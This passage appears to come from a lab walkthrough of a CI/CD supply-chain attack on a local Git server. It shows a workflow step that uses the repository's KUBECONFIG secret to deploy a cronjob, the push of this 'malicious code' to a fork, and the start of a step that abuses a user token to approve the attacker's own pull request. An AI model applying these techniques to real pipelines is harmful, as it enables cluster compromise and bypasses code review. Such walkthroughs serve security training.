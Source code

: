 ```yaml
      - name: Deploy to Cluster
        run: |
          export KUBECONFIG=$(mktemp)
          echo "${{ secrets.KUBECONFIG }}" > $KUBECONFIG
          kubectl apply -f cronjob.yaml
```

With this change, we can commit the change and push it to our forked repository.

```bash
git add -u

git commit -m "feat: new testing"
[main 8784960] feat: new testing
 1 file changed, 7 insertions(+)

git remote add fork http://localhost:8080/wakeward/production-image-build.git

git push fork
Username for 'http://localhost:8080': wakeward
Password for 'http://wakeward@localhost:8080':
Enumerating objects: 9, done.
Counting objects: 100% (9/9), done.
Delta compression using up to 16 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (5/5), 1.13 KiB | 1.13 MiB/s, done.
Total 5 (delta 2), reused 0 (delta 0), pack-reused 0
remote:
remote: Create a new pull request for 'wakeward:main':
remote:   http://localhost:8080/rescue-drop/production-image-build/compare/main...wakeward:main
remote:
remote: . Processing 1 references
remote: Processed 1 references in total
To http://localhost:8080/wakeward/production-image-build.git
   9ea3317..27b97fa  main -> main
```

So we have our malicious code in the `build.yaml` file, now we need to create a pull request and approve it. We can do this via the API.

### Step 4: Leveraging the user token to approve a pull request

First, let's create the pull request via the web interface. Navigate to the `rescue-drop/production-image-build` repository and click on the `Pull Requests` tab.

Select `merge into: rescue-drop:main` and `pull from: wakeward:main` and then click `New Pull Request` and then `Create Pull Request`.
